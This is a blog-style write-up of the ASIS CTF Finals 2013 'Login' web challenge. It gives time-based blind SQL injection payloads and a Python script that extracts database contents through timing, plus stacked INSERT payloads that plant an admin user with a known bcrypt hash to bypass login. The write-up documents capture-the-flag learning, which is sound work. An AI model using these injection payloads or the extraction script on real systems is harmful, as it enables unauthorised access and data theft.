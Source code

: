 ```yaml
---
layout: post
title: "ASIS CTF Finals 2013 Login"
description: ""
category: writeup
tags: [ASIS CTF Finals 2013, web]
---
```

{% include JB/setup %}

Description

	Login
	
	Points	350		Level	1	Solves	5
	
	Description
	78.38.193.187
	
	Hint:
	$2y$10$HXDsGCYFW5ajuzYO5qcyfOygl5r27BQB5DkL5ZfgoTfPSRMhlUAnG


All you can see is a login form, it always has some SQL injection problem.

After a lot of testing, finally we find a time-based blind injection in the username.

Using
	
	1' AND BENCHMARK(5000000,MD5(0x123)) AND ''='
	
then we start to using sqlmap to deal with it, but it is too slow and show some mistakes.

One of my friend write a python script to solve it, then we find some useful infomation. There are three database:

	information_schema
	sqli_db
	test
	
Obviously, sqli_db is suspicious, let's see what it has.

	users
	
It only has a table named users.

	user_id
	user_name
	user_email
	user_password_hash
	
At the beginning, we trying to fetch some data from it, but it is empty, some time later, we fetch a string from user_password_hash.

	$2y$10$gyI0vxnE3ZncmdLNGVmwTew/aPwBZPY4cEMCRENAjN4?0l8iu9O5R6iW

Just google "$2y$10", we find it is the head of PHP blowfish hash, but it seems that there is no way to get the original value from it.

At that time, the admin give a hint on this problem:

	Hint:
	$2y$10$HXDsGCYFW5ajuzYO5qcyfOygl5r27BQB5DkL5ZfgoTfPSRMhlUAnG
	
At the same time, we find that the table users suddenly become empty. It inspire us to try INSERT.

	';insert into users values (333,'hqd','1','1@1.com');select '

And it works!

Then it is so easy, just INSERT the correct hash value of a password u know it before, there is a php script can to do this.

	';insert into users values (333,'hqd','$2y$10$YTNlM2RiNmFiODgzZGM2YuYqP7NHnuZ31TyucetPJkODqia/XH5KC','1@1.com');select '
	
	#this is the blowfish hash value of 'admin'
	
Then just login use username:hqd and password:admin, then here is the flag.

	ASIS_9689926853009CAAD5BF824863077DC9

And taste the flavor of the first blood.

f.py

{% highlight python linenos%}
from httplib import HTTPConnection

HTTPConnection._http_vsn_str = 'HTTP/1.0'

def post_payload( payload ):
	conn = HTTPConnection( '78.38.193.187' )
	conn.putrequest( 'POST', '/', skip_accept_encoding=True, skip_host=True )
	conn.putheader( 'Content-Type', 'application/x-www-form-urlencoded' )
	conn.putheader( 'Content-Length', str(len(payload)) )
	conn.endheaders( message_body=payload )
	resp = conn.getresponse()
	resp.read()

from urllib import urlencode
from time import time

def get_bool( expression ):
	start = time()
	post_payload( urlencode( dict(
		login = '',
		user_password = ' ',
		user_name = "'OR if(%s,benchmark(1500000,md5(0)),0) AND''='" % expression,
	) ) )
	end = time()
	print 'Time:', end-start
	return end-start>0.95

def get_bit( expression ):
	return '1' if get_bool( expression ) else '0'

from itertools import count

def get_string( expression ):
	result = ''
	for i in count( start=1 ):
		char = ''
		for j in range(8)[::-1]:
			print 'Byte %d, Bit %d,' % (i,j),
			bit = get_bit( 'ascii(substr(%s,%d,1))>>%d&1' % ( expression, i, j ) )
			print bit
			char += bit
		char = int( char, 2 )
		if char == 0: break
		result += chr(char)
	return result

# def get_query( expression ):
	

# print get_string( 'database()' )
print get_string( '(SELECT IFNULL(CAST(table_name AS CHAR) ,0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x73716c695f6462 LIMIT 0,1)' )
# print get_string( '(SELECT IFNULL(CAST(table_name AS CHAR) ,0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=\'information_shema\' LIMIT 0,1)' )
# print get_string( '(SELECT IFNULL(CAST(COLUMN_NAME AS CHAR) ,0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME=\'users\' LIMIT 5,1)' )
# print get_string( '(SELECT CAST(COUNT(*) AS CHAR) FROM users)' )
# print get_string( '@@datadir' )
# print get_string( 'user()' )
# print get_string( 'version()' )


{% endhighlight %} 


a.php

Found from [pastebin](http://pastebin.com/y9GKtx0b)

{% highlight php linenos%}

<?php
// demo = $2y$10$Zjk5YzQ4ZTlhMzNlNTUzMO3Wnm1FqXmAb6/4DmyptNGoEdWGLwls.
       
function password_encrypt($password) {
  $hash_format = "$2y$10$";   // Tells PHP to use Blowfish with a "cost" of 10
  $salt_length = 22;                    // Blowfish salts should be 22-characters or more
  $salt = generate_salt($salt_length);
  $format_and_salt = $hash_format . $salt;
  $hash = crypt($password, $format_and_salt);
    return $hash;
}
 
function generate_salt($length) {
  // Not 100% unique, not 100% random, but good enough for a salt
  // MD5 returns 32 characters
  $unique_random_string = md5(uniqid(mt_rand(), true));
    // Valid characters for a salt are [a-zA-Z0-9./]
  $base64_string = base64_encode($unique_random_string);
    // But not '+' which is valid in base64 encoding
  $modified_base64_string = str_replace('+', '.', $base64_string);
    // Truncate string to the correct length
  $salt = substr($modified_base64_string, 0, $length);
    return $salt;
}
 
function password_check($password, $existing_hash) {
    // existing hash contains format and salt at start
  $hash = crypt($password, $existing_hash);
  if ($hash === $existing_hash) {
    return true;
  } else {
    return false;
  }
}

echo password_encrypt('admin');
?>

{% endhighlight %} 